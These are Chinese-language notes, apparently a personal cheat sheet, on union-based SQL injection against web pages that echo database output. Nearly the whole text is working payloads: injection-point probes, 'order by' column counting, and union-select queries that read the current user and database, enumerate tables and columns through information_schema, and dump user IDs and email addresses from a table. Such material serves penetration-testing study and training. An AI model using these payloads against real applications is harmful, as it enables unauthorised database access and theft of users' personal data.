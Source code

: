 
# SQL 注入

## 基于 回显
页面中显示db信息  主要通过union

### 注入点

`and 1=1`  `and 1=2`

### 列数

`order by ?` `?` >= 1 数字 直到N -> 列数 = N-1

### 用户 db
`1 and 1=2 union select 1,concat(current_user(),' ',database())`
![](https://cdn.jsdelivr.net/gh/631068264/img/006tNc79gy1fzl4nm6au8j318g0pmae8.jpg)

### 表数量
`1 and 1=2 union select 1,count(table_name) from information_schema.tables where table_schema=database()`
![](https://cdn.jsdelivr.net/gh/631068264/img/006tNc79gy1fzl4yp1ht6j316o0scn1s.jpg)

### 表名
`1 and 1=2 union select 1,table_name from information_schema.tables where table_schema=database() limit ?,1`
![](https://cdn.jsdelivr.net/gh/631068264/img/006tNc79gy1fzl4u6hd99j318e0tk78o.jpg)

### 表的列数量
`1 and 1=2 union select 1,count(column_name) from information_schema.columns where table_name='email'`
![](https://cdn.jsdelivr.net/gh/631068264/img/006tNc79gy1fzl4vj883yj315s0jq41d.jpg)

### 表列名
`1 and 1=2 union select 1,column_name from information_schema.columns where table_name='email' limit ?,1`
![](https://cdn.jsdelivr.net/gh/631068264/img/006tNc79gy1fzl4w6294xj317o0ty41b.jpg)

### 行数
`1 and 1=2 union select 1, count(1) from email`
![](https://cdn.jsdelivr.net/gh/631068264/img/006tNc79gy1fzl4zizsx1j318s0gyabh.jpg)

### 记录
`1 and 1=2 union select 1,concat(userid,' ',email) from email limit ?,1`
![](https://cdn.jsdelivr.net/gh/631068264/img/006tNc79gy1fzl503t542j31760hmdi6.jpg)
